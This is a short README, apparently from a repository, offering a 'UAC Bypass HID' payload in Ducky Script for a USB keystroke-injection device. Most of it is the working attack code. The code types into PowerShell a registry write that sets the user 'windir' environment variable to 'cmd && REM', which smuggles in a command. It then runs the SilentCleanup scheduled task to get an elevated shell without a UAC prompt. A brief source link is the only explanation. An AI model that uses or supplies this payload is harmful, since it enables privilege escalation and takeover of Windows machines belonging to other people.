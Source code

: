 # UAC Bypass HID
This payload bypasses the UAC

<img src="https://1.bp.blogspot.com/-31cvC2aPntY/WX8qJVj3OhI/AAAAAAAAoOI/X3ycE3JokCUQopcsQbj9mqLTO8GcDBDzgCLcBGAs/s1600/4.png" alt="http://www.elladodelmal.com">

Using the Environment Variables to bypass the UAC:

<img src="https://1.bp.blogspot.com/-A8Mwu4X3gQc/WX8qIzsdyVI/AAAAAAAAoN8/u13zbeQ2NVQjzL7-n9MZUQn3pXBkJvClACLcBGAs/s1600/2.png" alt="http://www.elladodelmal.com">

# CODE (Ducky Script)
<pre><code>GUI r
DELAY 200
STRING powershell
ENTER
DELAY 300
ALT n
STRING reg add hkcu\Environment /v windir /d "cmd && REM"
ENTER
DELAY 1000
STRING schtasks /Run /TN \Microsoft\Windows\DiskCleanup\SilentCleanup /I
ENTER
DELAY 200
STRING echo UAC Bypassed!
ENTER
</pre></code>


# How does it work?
Source: http://www.elladodelmal.com/2017/07/2017-el-ano-que-bypasseamos-uac.html
